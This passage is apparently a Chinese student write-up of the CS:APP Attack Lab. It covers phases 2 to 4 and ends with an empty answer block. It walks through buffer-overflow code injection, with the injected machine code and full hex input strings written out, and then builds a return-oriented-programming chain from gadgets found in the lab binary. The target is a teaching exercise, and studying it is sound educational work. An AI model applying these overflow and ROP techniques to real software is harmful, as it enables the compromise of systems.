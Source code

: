 ```
68 ec 17 40 00
c3
51 51 51
51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
78 dc 61 55 00 00 00 00
```

## 第三题
第三题也是注入代码，将 `cookie` 的字符串的地址传入函数，注入代码和第二题类似，但是注意因为第三题中，后续操作会将 buf 栈中的 40 个字节覆盖了，所以不能将字符串存储中这里，改为存储在调用函数前的栈中，通过打断点得到其栈顶地址是 `0x5561dca0` 。所以应该把字符串存入的地址设为 `0x5561dca8` ，这个地址在输入的 16 进制中就紧跟着跳转的地址。   
注入的代码（已经反编译了）：
```
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```
再和上题类似填充至 40 字节，附上跳转地址。再将 `cookie` 转化为 16 进制的字符串附到跳转地址后面，根据 `ASCII` 码，这里的 `cookie` 值 `0x59b997fa` 就是 `35 39 62 39 39 37 66 61 00` 这里末尾加 `00` ，我不知道是什么意思，不过看很多人都加了，我也跟风。。经验证，加不加对结果无影响。因而最终答案是：
```
48 c7 c7 a8 dc 61 55 
68 fa 18 40 00 
c3 
30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```
## Part2

四、五题是 Return-Oriented Programming ，这两题更难，因为引入了栈随机化和限制了可执行代码区域：

> - It uses randomization so that the stack positions differ from one run to another. This makes it impos-
sible to determine where your injected code will be located.
> - It  marks  the  section  of  memory  holding  the  stack  as  nonexecutable,  so  even  if  you  could  set  the program counter to the start of your injected code, the program would fail with a segmentation fault.     

栈随机化使得栈上的地址不确定，无法直接跳转到栈上的指定地址；可执行代码区域是限制的，使得注入栈上的代码无法执行。    
所以这里要引入新的攻击方式，就是 ROP 攻击，ROP 的具体讲解可以参考指导文档，ROP 的攻击思路就是，寻找、利用函数自带的一些 gadgets ，使之构成一个攻击链，这样利用程序自身的函数片段，就能绕过新的安全限制。 

## 第四题
这题要求在新的保护下重复第二题的结果，将 `cookie` 值传入 `%rdi` ，这里和第二题一样使得栈溢出，然后将返回地址设为 `gadgets` 攻击链的起始地址。攻击链可以这样构造，观察代码发现：
```
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```
查阅文档， `58 90` 即是 `popq %rax` ，`90` 是 `nop` ，可以直接忽视，这段代码地址是 `0x4019ab` ，它将栈上的值存入了寄存器，接着发现：
```
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3
``` 
查阅文档， `48 89 c7` 就是 `movq %rax,%rdi` ，就将栈上的值存入了 `%rdi` ，因此将 `cookie` 值存入栈中，就可以传值，这段代码地址是 `0x4019a2` 。    
因此输入字符串先是一段填充的 40 字节，然后是跳转地址，设为 pop 的地址 `0x4019ab` ，接着存入 `cookie` 值（就是将要 pop 的那个值，注意应存入 64 位值），然后是 mov 的地址 `0x4019a2` ，最后跳转到 `touch2` ，这样一个完整的 ROP 攻击链就形成了，一个可行的答案就是：
```
```